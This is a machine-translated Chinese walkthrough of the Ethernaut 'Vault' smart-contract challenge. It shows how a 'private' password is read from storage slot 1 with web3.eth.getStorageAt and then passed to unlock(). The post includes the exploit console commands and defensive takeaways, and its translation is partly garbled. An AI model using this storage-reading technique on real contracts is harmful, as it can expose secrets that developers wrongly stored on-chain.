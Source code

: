 # 以太 8 级金库[铸造厂-安全帽]

> 原文：<https://medium.com/coinmonks/ethernaut-level-8-vault-foundry-hardhat-ed135ba10978?source=collection_archive---------25----------------------->

![](img/69ba34bab550505e0c034c35d598a165.png)

> *[*以太解决方案*](https://github.com/Chirag21/Ethernaut-solutions) *库包含使用 Foundry 和 Hardhat 的解决方案。**

# *目标*

*   *解锁保险库以通过，即将`locked`存储变量设置为`false`。*

*每个智能合约都有自己的存储空间。存储是智能合约的永久数据存储。存储中的数据在不同的函数调用中保持不变。以太坊将数据存储在存储“[槽](https://docs.soliditylang.org/en/latest/internals/layout_in_storage.html)”中，这是 32 字节大小的槽。每次将变量保存到存储器时，它会自动占用序列中当前槽或下一个槽的剩余空间。数据按照声明的顺序存储在这些槽中。存储在区块链上的所有数据都是公开可见的；谁都可以看。*

> *从顶级交易者那里复制交易机器人。免费试用。*

> *将变量设为私有意味着它只能在声明它的契约中被访问；它不隐藏变量。*

*我们可以使用声明变量的槽号直接访问契约的存储。*

# *分析*

*看一下保险库合同。*

```
*contract Vault {
  bool public locked;          // slot 0
  bytes32 private password;    // slot 1

  constructor(bytes32 _password) {
    locked = true;
    password = _password;
  }
  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}*
```

*请注意，在保险存储合同中，密码存储在插槽 1”的私有变量中。我们可以通过读取“插槽 1”并调用`unlock()`函数来轻松获得密码，从而解锁金库。*

# *剥削*

*   *在浏览器上打开开发控制台。使用 [](https://web3js.readthedocs.io/en/v1.2.11/web3-eth.html#getstorageat) `[web3.eth.getStorageAt()](https://web3js.readthedocs.io/en/v1.2.11/web3-eth.html#getstorageat)`获取密码。这将返回字节 32 形式的密码。*

```
*const password = await web3.eth.getStorageAt(instance,1)*
```

*   *打开保险库*

```
*await contract.unlock(password)*
```

*   *要查看实际的密码，请使用十六进制到字符串的转换器。*

```
*web3.utils.hexToAscii(password)*
```

*该函数将字节 32 `password`转换为人类可读的文本，从而显示`“A very strong secret password :)”`。*

*   *您可以通过读取插槽 0 来检查`locked`变量的值*

```
*await web3.eth.getStorageAt(instance,0)  // returns false*
```

*提交实例。*

*关卡通过！！！😄*

# *关键要点*

*   *重要的是要记住，将变量标记为私有只会阻止其他契约访问它。标记为私有和局部变量的状态变量仍然可以公开访问。*
*   *不要在智能合约中存储敏感数据。*
*   *当使用带有存储变量的契约的 [delegatecall](/coinmonks/ethernaut-lvl-7-walkthrough-how-to-selfdestruct-and-create-an-ether-blackhole-eb5bb72d2c57) 时，要小心数据损坏。*
*   *私有函数和状态变量在派生契约中不可见；它们只能在定义它们的合同中访问。*
*   *为了确保数据的私密性，需要在将数据放入区块链之前对其进行加密。在这种情况下，解密密钥不应该在链上发送，因为任何寻找它的人都会看到它。*

> **[***Ethernaut-Solutions***](https://github.com/Chirag21/Ethernaut-solutions)*资源库包含使用 Foundry 和 Hardhat 的解决方案。***
> 
> ***使用铸造厂的解决方案:-***
> 
> **[***测试***](https://github.com/Chirag21/Ethernaut-Solutions-using-Foundry-Hardhat/blob/main/test/foundry/8_Vault.t.sol)*[***漏洞利用脚本***](https://github.com/Chirag21/Ethernaut-Solutions-using-Foundry-Hardhat/blob/main/script/8_VaultScript.sol)***
> 
> ***使用安全帽的解决方案:-***
> 
> **[***测试***](https://github.com/Chirag21/Ethernaut-Solutions-using-Foundry-Hardhat/blob/main/test/hardhat/8_vault.test.ts)*[***漏洞利用脚本***](https://github.com/Chirag21/Ethernaut-Solutions-using-Foundry-Hardhat/blob/main/scripts/8_vault_exploit.ts)***

**[![](img/679392ad412abc67dd16f3b9fefa799d.png)](https://www.buymeacoffee.com/0xcsp)**

# **更多级别**

**[](/coinmonks/ethernaut-level-9-king-foundry-hardhat-528cea17a8b1) [## 以太 9 级王者[铸造-安全帽]

### Ethernaut-Solutions 存储库包含使用 Foundry 和 Hardhat 的解决方案。

medium.com](/coinmonks/ethernaut-level-9-king-foundry-hardhat-528cea17a8b1) [](/coinmonks/ethernaut-level-7-force-foundry-hardhat-581e92687422) [## 以太 7 级力量[铸造-安全帽]

### Ethernaut-Solutions 存储库包含使用 Foundry 和 Hardhat 的解决方案。

medium.com](/coinmonks/ethernaut-level-7-force-foundry-hardhat-581e92687422) 

> 加入 Coinmonks [电报频道](https://t.me/coincodecap)和 [Youtube 频道](https://www.youtube.com/c/coinmonks/videos)了解加密交易和投资

# 另外，阅读

*   [网格交易机器人](https://coincodecap.com/grid-trading) | [Cryptohopper 审查](/coinmonks/cryptohopper-review-a388ff5bae88) | [Bexplus 审查](https://coincodecap.com/bexplus-review)
*   [7 个最佳零费用加密交易平台](https://coincodecap.com/zero-fee-crypto-exchanges)
*   [氹欞侊贸易评论](https://coincodecap.com/anny-trade-review) | [火币保证金交易](/coinmonks/huobi-margin-trading-b3b06cdc1519)
*   [分散交易所](https://coincodecap.com/what-are-decentralized-exchanges) | [比特 FIP](https://coincodecap.com/bitbns-fip) | [Pionex 评论](https://coincodecap.com/pionex-review-exchange-with-crypto-trading-bot)
*   [用信用卡购买密码的 10 个最佳地点](https://coincodecap.com/buy-crypto-with-credit-card)**